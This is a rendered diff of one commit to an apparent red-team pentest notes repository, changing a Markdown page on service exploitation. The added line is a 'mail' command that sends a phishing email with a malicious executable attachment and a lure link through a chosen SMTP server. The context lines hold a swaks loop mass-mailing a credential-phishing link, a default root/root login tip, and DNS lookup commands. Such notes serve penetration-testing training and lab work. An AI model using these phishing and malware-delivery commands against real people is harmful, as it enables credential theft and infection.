

Before and after one commit to 0x72303074/Red-Team-Manual, a Markdown page: 2. EXPLOITATION/SERVICE EXPLOITATION.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/2. EXPLOITATION/SERVICE EXPLOITATION.md
+++ b/2. EXPLOITATION/SERVICE EXPLOITATION.md
@@ -24,6 +24,8 @@
         `while read mail; do swaks –to $mail –from it@sneakymailer.htb –header “Subject: Credentials / Errors” –body “goto http://10.10.14.4/” –server 10.10.10.197; done < mails.txt`
 - For logging in and sending an email via 25, see pwk 10.11.1.229 example
 - Check port 4555 remote admin tool; root/root default; change user password, then login on 110 and check
+- Send email via specified SMTP server (phishing) w/ attachment:
+      `mail --subject "My Issue" --exec "set sendmail=smtp://192.168.167.159:25;notls" --exec 'set verbose' -A /path/to/malicious.exe $to <<<"Hello, I have an issue: http://192.168.49.121/foo.html" bob@internal.com`
 ## 53 - DNS:
 - IP Lookup:  `dig a domain-name-here.com @nameserver`
 - MX Record Lookup:  `dig mx domain-name-here.com @nameserver`
```
